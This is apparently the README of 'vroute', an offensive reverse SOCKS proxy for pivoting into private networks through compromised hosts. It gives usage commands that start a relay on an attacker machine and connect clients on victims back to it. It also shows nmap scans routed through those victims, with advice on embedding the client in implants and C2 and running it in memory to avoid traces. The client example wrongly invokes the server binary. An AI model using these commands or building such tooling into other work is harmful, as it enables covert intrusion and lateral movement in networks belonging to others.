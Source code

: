# vroute

Reverse SOCKS proxy through HTTP(S) for network pivoting

## Introduction

Project allowing operators to use compromised devices in offensive network operations to route traffic into private network for which there is no direct access otherwise.

Supports the following protocols for relay communication:

- TCP

- HTTP

- HTTPS

This project has two main parts:

- **Server**: Binds a SOCKS proxy and a relay server

- **Client**: Connects to server relay server

The SOCKS proxy is where we poing the SOCKS proxy client (Eg.: using proxychains), and where we route OST traffic to.

The relay server acts as a middleman between compromised devices and the SOCKS proxy client, which ultimately allows the SOCKS proxy client to reach network destinations that the compromised nodes have access to.

Compiles ELF and DLL shared libraries to be plugged in your implants for easy use of the client in memory without touching disk (Eg.: check [https://github.com/lockedbyte/so_loader](https://github.com/lockedbyte/so_loader)).

VROUTE uses a handshake to verify a PSK (password) to be able to connect to the server.

The communication is encrypted in AES-CBC 256-bit.

**NOTE:** Still fixing bugs in the HTTPS implementation for Windows clients, use HTTP or TCP instead until fixed.


### Example

1) Run the server in attacker machine:

`$ ./vroutesrv 0.0.0.0 1080 0.0.0.0 1337 1 p@ssw0rd12345`

Will start SOCKS proxy at `1080`, and relay server at `1337`.

Will use protocol HTTP (`1`), and will use password `p@ssw0rd12345`.

2) Run client in compromised machine(s)

`$ ./vroutesrv 192.168.1.13 1337 1 p@ssw0rd12345`

Relay server (attacker machine) IP address is `192.168.1.13`, and port is `1337`.

Will use protocol HTTP (`1`), and will use password `p@ssw0rd12345`.

3) Route traffic from your OSTs through compromised devices

(Make sure to add `socks4    127.0.0.1    1080` at `/etc/proxychains.conf`)

It is recommended to increase the proxychains tcp timeout. Example of values:

```
tcp_read_time_out 150000
tcp_connect_time_out 80000
```

Finally use your OSTs:

`$ proxychains nmap 10.0.2.16 -p80,8080,22,443,445,53`


## Installing

Dependencies:

- Mingw GCC
- libopenssl dev

Command:

```bash
sudo apt-get install gcc-mingw-w64
sudo apt-get install libssl-dev
```

## Compiling

DEBUG mode (debug strings, logging, symbols...):

```bash
./compile.sh debug
```

RELEASE mode (no debug strings, no logging, symbol stripping ...):

```bash
./compile release
```

DEV mode (debug strings, logging, symbols, ASAN ...):

```bash
./compile dev
```

The compilation will leave the following output files:

Server:

- `vroutesrv`: Server command line ELF executable (run server from shell)
- `libvroute_server.so`: Shared library for server (Eg.: plug VROUTE server to your C2)

Client:

- `vrouteclt`: Client command line ELF executable (run client from shell - not recommended, leaves many traces)
- `libvroute_client.so`: Shared library for client (Eg.: plug VROUTE client into your implant)

Windows support (only client):

- `vrouteclt.exe`: Microsoft Windows PE executable version of command line client
- `libvroute_client.dll`: Microsoft Windows DLL version of shared library client


## Usage

### Server

Server command line:

```
==== { VROUTE SERVER: USAGE } ===

[0] => HTTPS protocol
[1] => HTTP protocol
[2] => Raw TCP protocol

./vroutesrv <proxy ip> <proxy port> <relay ip> <relay port> <protocol> <password> <cert path (if https)>

  Eg.: ./vroutesrv 0.0.0.0 1080 0.0.0.0 1337 1 p@ssw0rd1234#

```

Server shared library entrypoint:

```c
int start_socks4_rev_proxy(char *proxy_host, int proxy_port, char *relay_host, int relay_port, proto_t proto, char *key, size_t key_sz, char *cert_file, int *err);
```

Force server close:

```c
void socks4_rev_close_srv(void);
```

### Client

Client command line:

```
==== { VROUTE CLIENT: USAGE } ===

[0] => HTTPS protocol
[1] => HTTP protocol
[2] => Raw TCP protocol

./vrouteclt <relay ip> <relay port> <protocol> <password>

  Eg.: ./vroutectl 1.2.3.4 1337 0 p@ssw0rd1234#

```

Client shared library entrypoint:

```c
int start_relay_conn(char *host, int port, proto_t proto, char *key, size_t key_sz);
```










